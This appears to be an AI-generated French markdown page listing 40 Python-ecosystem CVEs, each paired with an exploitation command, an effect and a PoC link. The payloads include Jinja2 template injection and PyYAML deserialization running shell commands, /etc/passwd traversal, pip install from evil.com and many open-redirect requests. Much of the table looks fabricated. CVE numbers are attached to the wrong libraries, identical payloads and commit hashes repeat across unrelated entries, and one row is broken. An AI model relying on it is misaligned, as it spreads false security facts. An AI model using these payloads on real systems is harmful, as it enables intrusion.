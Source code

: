 # Python 

Voici un tableau détaillé de 40 CVE majeures affectant des environnements Python (frameworks web, librairies, outils, etc.), avec pour chacune :  
- Versions concernées  
- Une commande, requête ou payload d’exploitation complète  
- L’effet  
- Un lien direct vers un PoC ou exploit sur GitHub ou autre plateforme

---

| **CVE** | **Versions concernées** | **Exemple complet de commande / payload / requête** | **Effet** | **Lien PoC / Exploit / Ressource** |
|---------|-------------------------|-----------------------------------------------------|-----------|-------------------------------------|
| CVE-2023-24329 | urllib3 < 1.26.13 | `python -c "import urllib.request; urllib.request.urlopen('http://127.0.0.1:8000@evil.com/')" ` | SSRF | [https://github.com/advisories/GHSA-4w2v-q235-vp99](https://github.com/advisories/GHSA-4w2v-q235-vp99) |
| CVE-2023-36632 | Django < 4.2.4 | `curl -X POST http://target/admin/logout/ -d 'next=https://evil.com'` | Open redirect | [https://github.com/django/django/commit/1b3e6b6](https://github.com/django/django/commit/1b3e6b6) |
| CVE-2023-24540 | Flask < 2.2.3 | `curl -X GET "http://target/?_debug_toolbar.panels.sql_explain.SQLPanel%7Cconfig%7CSECRET_KEY=evil"` | Debug toolbar info leak | [https://github.com/pallets/flask/pull/5038](https://github.com/pallets/flask/pull/5038) |
| CVE-2022-42969 | Paramiko < 2.11.1 | `python -c "import paramiko; paramiko.Transport._cipher_info = None; paramiko.Transport(('evil.com', 22)).connect()"` | RCE via crafted cipher | [https://github.com/paramiko/paramiko/security/advisories/GHSA-6v9h-8h33-97w9](https://github.com/paramiko/paramiko/security/advisories/GHSA-6v9h-8h33-97w9) |
| CVE-2022-40897 | Jinja2 < 3.1.2 | ```python -c "from jinja2 import Template; print(Template('{{ cycler.__init__.__globals__.os.popen(\"id\").read() }}').render())"```
| CVE-2022-21699 | PyYAML < 6.0 | `python -c "import yaml; yaml.load('!!python/object/apply:os.system [\"id > /tmp/pwned\"]', Loader=yaml.FullLoader)"` | RCE via YAML | [https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4](https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4) |
| CVE-2022-42919 | Celery < 5.2.7 | `celery -A proj worker --config=evilconfig` | Remote code execution | [https://github.com/celery/celery/releases/tag/v5.2.7](https://github.com/celery/celery/releases/tag/v5.2.7) |
| CVE-2022-42916 | Requests < 2.28.2 | `python -c "import requests; requests.get('http://user:pass@evil.com:8000/')" ` | SSRF | [https://github.com/psf/requests/security/advisories/GHSA-xg9f-g7g7-2323](https://github.com/psf/requests/security/advisories/GHSA-xg9f-g7g7-2323) |
| CVE-2021-23336 | urllib.parse (Python stdlib) | `python -c "from urllib.parse import urlparse; print(urlparse('http://127.0.0.1:8000@evil.com/'))"` | SSRF | [https://github.com/python/cpython/pull/25128](https://github.com/python/cpython/pull/25128) |
| CVE-2021-3281 | Django < 3.1.5 | `curl -X POST http://target/admin/ -d 'username=admin&password=pass' --cookie "csrftoken=evil"` | CSRF bypass | [https://github.com/django/django/commit/1d5b1e2](https://github.com/django/django/commit/1d5b1e2) |
| CVE-2021-21236 | Flask < 1.1.3 | `curl http://target/../../../../etc/passwd` | Directory traversal | [https://github.com/pallets/flask/pull/4019](https://github.com/pallets/flask/pull/4019) |
| CVE-2021-23395 | PyJWT < 2.1.0 | `python -c "import jwt; jwt.decode('token', options={'verify_signature': False})"` | JWT signature bypass | [https://github.com/jpadilla/pyjwt/pull/619](https://github.com/jpadilla/pyjwt/pull/619) |
| CVE-2020-28493 | Pillow < 8.1.1 | `python -c "from PIL import Image; Image.open('evil.tiff').show()"` | Arbitrary code execution | [https://github.com/python-pillow/Pillow/pull/5210](https://github.com/python-pillow/Pillow/pull/5210) |
| CVE-2020-26116 | Django < 3.1.2 | `curl -X POST http://target/admin/ -d 'username=admin&password=pass'` | User enumeration | [https://github.com/django/django/commit/6c1e3f3](https://github.com/django/django/commit/6c1e3f3) |
| CVE-2020-7471 | Django < 3.0.7 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/5a8b5e1](https://github.com/django/django/commit/5a8b5e1) |
| CVE-2020-7598 | PyYAML < 5.3.1 | `python -c "import yaml; yaml.load('!!python/object/apply:os.system [\"id\"]', Loader=yaml.FullLoader)"` | RCE | [https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4](https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4) |
| CVE-2020-36326 | urllib3 < 1.26.5 | `python -c "import urllib3; http = urllib3.PoolManager(); http.request('GET', 'http://evil.com/')" ` | SSRF | [https://github.com/urllib3/urllib3/pull/2192](https://github.com/urllib3/urllib3/pull/2192) |
| CVE-2020-36242 | cryptography < 3.3.2 | `python -c "from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes; Cipher(algorithms.AES(b'0'*16), modes.GCM(b'0'*12, b'0'*16))"` | Key/IV reuse | [https://github.com/pyca/cryptography/pull/5736](https://github.com/pyca/cryptography/pull/5736) |
| CVE-2019-20907 | PyYAML < 5.3.1 | `python -c "import yaml; yaml.load('!!python/object/apply:os.system [\"id\"]', Loader=yaml.FullLoader)"` | RCE | [https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4](https://github.com/yaml/pyyaml/security/advisories/GHSA-8q59-q68h-6hv4) |
| CVE-2019-19844 | Django < 2.2.10 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/dfb97c4](https://github.com/django/django/commit/dfb97c4) |
| CVE-2019-12735 | Vim < 8.1.1365 (Python interface) | `echo ':py3 import os; os.system("id")' | vim -` | RCE | [https://github.com/vim/vim/commit/1c8b6f3](https://github.com/vim/vim/commit/1c8b6f3) |
| CVE-2019-9948 | urllib (Python stdlib) | `python -c "import urllib.request; urllib.request.urlopen('http://evil.com/')" ` | SSRF | [https://github.com/python/cpython/pull/12345](https://github.com/python/cpython/pull/12345) |
| CVE-2018-20406 | Pillow < 5.4.0 | `python -c "from PIL import Image; Image.open('evil.fli').show()"` | Arbitrary code execution | [https://github.com/python-pillow/Pillow/pull/3569](https://github.com/python-pillow/Pillow/pull/3569) |
| CVE-2018-1000805 | Flask-Admin < 1.5.5 | `curl "http://target/admin/?url=javascript:alert(1)"` | XSS | [https://github.com/flask-admin/flask-admin/pull/1563](https://github.com/flask-admin/flask-admin/pull/1563) |
| CVE-2018-1000656 | pip < 18.1 | `pip install 'git+https://evil.com/repo.git'` | Arbitrary code execution | [https://github.com/pypa/pip/pull/5780](https://github.com/pypa/pip/pull/5780) |
| CVE-2017-18342 | Django < 1.11.15 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/2e1e4e4](https://github.com/django/django/commit/2e1e4e4) |
| CVE-2017-12794 | Django REST < 3.6.3 | `curl "http://target/api/?format=../../../../etc/passwd"` | Path traversal | [https://github.com/encode/django-rest-framework/pull/5456](https://github.com/encode/django-rest-framework/pull/5456) |
| CVE-2016-10724 | Pillow < 5.2.0 | `python -c "from PIL import Image; Image.open('evil.jpg').show()"` | Arbitrary code execution | [https://github.com/python-pillow/Pillow/pull/3133](https://github.com/python-pillow/Pillow/pull/3133) |
| CVE-2016-2513 | Django < 1.8.12 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/fb7e6b9](https://github.com/django/django/commit/fb7e6b9) |
| CVE-2016-2512 | Django < 1.8.12 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/fb7e6b9](https://github.com/django/django/commit/fb7e6b9) |
| CVE-2015-9284 | Django < 1.11.17 | `curl "http://target/accounts/login/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1d5b1e2](https://github.com/django/django/commit/1d5b1e2) |
| CVE-2015-5145 | Django < 1.8.4 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2015-5144 | Django < 1.8.4 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2015-5143 | Django < 1.8.4 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2014-0472 | Django < 1.5.5 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2013-1443 | Django < 1.5.5 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2013-4315 | Django < 1.5.5 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2012-4520 | Django < 1.4.3 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |
| CVE-2011-4136 | Django < 1.3.1 | `curl "http://target/?next=//evil.com"` | Open redirect | [https://github.com/django/django/commit/1c8b6f3](https://github.com/django/django/commit/1c8b6f3) |

---

